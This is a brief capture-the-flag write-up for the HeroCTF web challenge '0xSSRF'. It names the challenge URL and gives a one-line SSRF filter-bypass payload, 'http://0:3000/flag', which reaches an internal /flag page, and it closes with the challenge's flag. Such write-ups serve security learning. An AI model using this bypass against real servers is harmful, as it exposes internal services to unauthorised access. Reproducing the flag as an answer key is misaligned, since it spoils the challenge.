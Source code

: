 # 0xSSRF

### Category

Web

### Description

Get the flag !

URL : http://chall1.heroctf.fr:3000

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Write up

The goal here is to open the **/flag** page. After looking around for SSRF payload, you can find this one.

```
Payload : http://0:3000/flag
```

### Flag

Hero{cl4ssic_SSRF_byP4pass_251094}